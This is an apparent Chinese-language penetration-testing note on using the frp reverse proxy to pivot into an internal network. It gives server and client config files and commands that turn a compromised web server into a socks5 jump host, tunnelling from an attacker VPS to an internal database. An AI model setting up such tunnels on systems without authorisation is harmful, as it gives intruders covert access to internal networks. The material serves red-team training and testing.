 # frp简介

frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议。是一款开源软件，github地址：https://github.com/fatedier/frp

frp分为服务端(frps)和客户端(frpc)，客户端服务端通信支持 TCP、KCP 以及 Websocket 等多种协议。通过在具有公网 IP 的节点上部署 frp 服务端，可以轻松地将内网服务穿透到公网。frp小巧而且强大，具有诸多功能，这里我们只探讨内网渗透中的一些运用。

   

# 场景一：隧道

如下拓扑图，将we服务器作为代理，搭建黑客与数据库的socks5隧道。

<img src="../../../note/red/pictures/frp2.png" alt="frp1" style="zoom:33%;" /> 

### 服务端

vps上起一个frp服务端，

配置frps.ini：

```
[common]
bind_port = 7000
token = shadowtest	#密码
```

vps上执行frp server端。

```
./frps -c ./frps.ini
```



### 客户端

web服务器上起一个frp客户端

配置frpc.ini：

```
[common]
server_addr = vps-ip
server_port = 7000
token = shadowtest #密码
	
[vps]
type = tcp
plugin = socks5
remote_port = 4445
use_encryption = true #是否加密
```

如上配置将web服务器的socks流量映射到vps的4445端口。web服务器成了跳板机器，打通了黑客与数据库的隧道。
